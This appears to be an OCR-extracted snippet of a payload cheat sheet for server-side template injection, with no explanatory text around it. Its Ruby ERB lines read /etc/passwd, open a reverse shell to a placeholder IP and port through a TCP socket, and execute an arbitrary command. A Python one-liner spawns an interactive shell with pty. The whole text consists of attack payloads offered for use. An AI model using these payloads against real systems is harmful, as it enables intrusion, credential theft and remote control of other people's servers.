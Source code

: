 Ruby:
```ruby
<%= File.read("/etc/passwd") %>
<%= spawn("sh",[:in,:out,:err]=>TCPSocket.new("IP Address",PORT)) %>
<%= command %>
```

Python:
```shell
$ python3 -c "import pty; pty.spawn('bin/bash')"
```
